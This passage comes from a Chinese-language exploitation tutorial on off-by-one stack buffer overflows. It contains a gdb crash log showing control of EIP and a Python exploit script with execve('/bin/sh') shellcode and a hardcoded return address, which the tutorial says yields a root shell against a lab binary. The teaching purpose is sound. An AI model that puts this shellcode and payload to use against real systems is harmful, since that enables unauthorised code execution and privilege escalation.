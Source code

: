 ```assembly
[New LWP 4055]
warning: Can't read pathname for load map: Input/output error.
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

上面的输出表明攻击者可以控制返回地址。返回地址位于“buf”的偏移量（0xac）处。有了这些信息，让我们编写一个漏洞利用程序来实现任意代码执行。

```python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

#Spawn a shell. 
#execve(/bin/sh) Size- 28 bytes.
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90"

ret_addr = 0xbffff218

#endianess conversion
def conv(num):
 return struct.pack("<I",num)

#Junk + Return Address + NOP's + Shellcode + Junk
buf = "A" * 172
buf += conv(ret_addr)
buf += "\x90" * 30
buf += scode
buf += "A" * 22

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序给了我们root shell

Off-by-one 看起来像一个愚蠢的错误，而且很奇怪，开发人员的这种小错误可能导致任意代码执行。一个错误是否总是导致任意代码执行？

如果调用者的 EBP 不在目标缓冲区上方怎么办？

这个问题的答案很简单，我们不能使用 EBP 覆盖技术来利用，但其他一些利用技术可能是可能的，因为毕竟代码中存在错误。

在什么情况下调用者的 EBP 不会出现在目标缓冲区上方？

场景 1：目标缓冲区上方可能存在其他一些局部变量。

```c
...
void bar(char* arg) {
 int x = 10; /* [1] */
 char buf[256]; /* [2] */ 
 strcpy(buf, arg); /* [3] */ 
}
...
```

